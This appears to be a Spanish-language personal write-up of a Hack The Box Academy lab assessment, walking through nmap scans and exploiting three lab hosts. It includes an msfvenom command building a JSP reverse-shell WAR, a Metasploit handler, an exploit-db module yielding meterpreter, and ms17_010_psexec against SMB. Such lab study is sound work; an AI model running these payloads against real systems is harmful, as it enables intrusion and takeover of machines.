 ### **Escenario**

El equipo de **CAT5** ha asegurado un punto de entrada a la red de **Inlanefreight** para nosotros. Nuestra responsabilidad será:

1. Examinar los resultados del reconocimiento realizado.
2. Validar cualquier información que consideremos necesaria.
3. Investigar lo que se pueda observar.
4. Elegir qué exploits, payloads y shells usar para controlar los objetivos.

Una vez dentro de la VPN o desde **Pwnbox**, será necesario conectarse por **RDP** al host inicial y realizar las acciones requeridas desde allí. A continuación, encontrarás las credenciales, direcciones IP y otra información relevante.

```
- IP: 10.129.58.225
- Credentials: `htb-student` / HTB_@cademy_stdnt! Can be used by RDP.
```
Una vez que inicies la conexión, se te pedirá ingresar las credenciales nuevamente en una ventana como esta:
![[Pasted image 20241118131600.png]]
Enter your credentials again and click `OK` and you will be connected to the provided Parrot Linux desktop instance.
![[Pasted image 20241118131622.png]]
### **Hosts de Objetivo**
- Los **Hosts 1-3** son tus objetivos para este desafío.
- Cada host tiene un vector único para atacar, y algunos pueden tener más de una ruta de explotación integrada.
- Responde las preguntas del desafío explotando estos tres hosts.

#### **Acceso y Enumeración**

1. Necesitarás utilizar el PC inicial proporcionado.
2. La dirección IP aparecerá al generar los objetivos.
3. **Nota**: No podrás interactuar con los objetivos desde ningún lugar fuera del punto de entrada.

El host inicial tiene acceso a la red interna de **Inlanefreight** (red `172.16.0.0/23`). Presta atención a la dirección IP que eliges al iniciar tus listeners


cremaos un server python con nuestrras herramientas a usar 
![[Pasted image 20241118135627.png]]
las cuales podemos descargar desde la maquina pivote con wget
![[Pasted image 20241118135702.png]]
Primera pregunta 
Cual es el hostname de la priemra maquina 
sudo nmap -sCV -O 172.16.1.11
![[Pasted image 20241118161642.png]]

Segunda pregunta
Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case):

usaremos msfvenom para realizar el payload

usaremos el siguiente paylaod 'java/jsp_shell_reverse_tcp'
![[Pasted image 20241118161912.png]]


msfvenom -p java/jsp_shell_reverse_tcp — list-options

![[Pasted image 20241118162128.png]]

![[Pasted image 20241118162202.png]]
solo requerimos host y port

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=9001 -f war -o shell.war
```
ahora creamos un listen-port con msconsole
con use multi/handler

![[Pasted image 20241118162351.png]]


subirmos el payload de venom  y lo ejecutamos para establecer conexion, 
luego nos vamos directamente para ver la carpeta en el directorio shares
![[Pasted image 20241118163412.png]]





3ra Pregunta
What distribution of Linux is running on Host-2? (Format: distro name, all lower case)

R/// realizamos un escaneo de nmap para darnos cuenta ante quee nos encontramos 
nmap -sCV -O 172.16.1.12 y vemos que la distro es ubuntu

![[Pasted image 20241118163657.png]]


4ta pregunta
What language is the shell written in that gets uploaded when using the 50064.rb exploit?
R// php
![[Pasted image 20241118164103.png]]


5ta pregunta 
+ Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt

![[Pasted image 20241118164425.png]]

usaremos este exploit en msconsole para su explotacion
lo copiamos  en la ruta de metasploit de exploits para poderlo usar, en dado caso de no tener esa ruta podemos crearla simplemente 
```shell
cp /usr/share/exploitdb/exploits/php/webapps/50064.rb /usr/share/metasploit-framework/modules/exploits/php/webapps/
```

![[Pasted image 20241118165421.png]]


usamos el exploit en msfconsole y apuntamos a la segunda maquina
![[Pasted image 20241118170032.png]] 
ejecutamos el payload y obetenemos una shell de meterpreter

![[Pasted image 20241118170630.png]]


6ta pregunta 
What is the hostname of Host-3?

iniciamos nuevamente con un reconocmiento del host
nmap -sCV -O 172.16.1.13 

![[Pasted image 20241118171102.png]]

en los scripts ejecutados por nmap encontro el nombre del host
![[Pasted image 20241118171137.png]]


el puerto 445 esta abierto lo usaremo como vector de ataque

6ta pregunta
Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt


para ello usaremos el modulo de metaplsoit ms17_010_psexec
![[Pasted image 20241118171416.png]]

usamos la configuracion que necesitamos nuestro host y la maquina objetivo 
![[Pasted image 20241118171539.png]]

nos movemos al directorio y extraemos la flag
![[Pasted image 20241118171829.png]]















